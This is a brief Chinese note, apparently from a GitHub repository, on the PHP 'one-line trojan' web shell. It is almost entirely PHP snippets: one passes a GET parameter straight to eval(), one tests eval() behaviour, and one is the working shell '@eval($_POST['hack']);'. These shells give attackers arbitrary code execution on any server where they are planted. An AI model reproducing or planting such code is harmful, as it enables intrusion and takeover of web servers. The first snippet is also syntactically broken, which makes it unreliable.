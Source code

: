 # 一句话木马

eval()的特性是第一个成功了, 后续的才能执行;

```php
<?p
if(isset($_GET['c'])){
$c = $_GET['c']
eval($c)
}
?>
```

```php
eval('phpinfo();phpinfo();fdsfsdfds'.'asdasdsa();');//成功执行
eval('asdasdsa();phpinfo();fdsfsdfds'.'asdasdsa();');//执行失败

```

```php

<?php
@eval($_POST['hack']);
?>

```
